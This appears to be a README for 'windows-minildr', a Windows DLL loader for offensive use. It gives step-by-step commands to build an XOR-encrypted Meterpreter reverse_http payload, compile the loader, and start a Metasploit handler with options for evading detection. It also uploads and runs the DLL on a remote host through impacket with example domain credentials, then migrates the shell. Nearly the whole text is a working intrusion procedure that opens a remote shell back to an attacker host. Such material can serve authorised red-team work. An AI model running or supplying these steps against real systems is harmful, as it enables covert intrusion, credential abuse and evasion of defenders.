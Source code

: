 # windows-minildr

Generate payload.

~~~ bash
echo -n secret > ./key.bin
msfvenom --payload windows/x64/meterpreter/reverse_http --encrypt xor --encrypt-key "$(< ./key.bin)" --format raw --out ./buf.bin LHOST=192.168.178.42 LPORT=1337
~~~

Compile loader.

~~~ bash
x86_64-w64-mingw32-g++ -m64 -Wall -Wextra -std=c++20 -lstdc++ -static -Os -s -shared -o ./minildr.dll ./minildr.cpp
~~~

Start listener and evade basic detections when using Meterpreter ([source](https://twitter.com/lpha3ch0/status/1630213398397874178)).

~~~ bash
msfconsole -q -x 'use exploit/multi/handler
set LHOST 192.168.178.42
set LPORT 1337
set PAYLOAD windows/x64/meterpreter/reverse_http
set EnableStageEncoding true
set StageEncoder x64/zutto_dekiru
set AutoLoadStdapi false
set ExitFunc thread
run'
~~~

Execute loader.

~~~ bash
impacket-smbclient -file /dev/stdin corp.com/jdoeadm:'passw0rd'@ws01.corp.com << 'EOF'
use c$
cd windows
put minildr.dll
ls
EOF
impacket-atexec -silentcommand corp.com/jdoeadm:'passw0rd'@ws01.corp.com 'rundll32.exe C:\Windows\minildr.dll,DllInstall'
~~~

After you received the connection run `load stdapi` in the Meterpreter shell.

When your shell terminates shortly after you receive the connection run `migrate -N explorer.exe` in the Meterpreter shell or `set AutoRunScript post/windows/manage/migrate` on the handler.
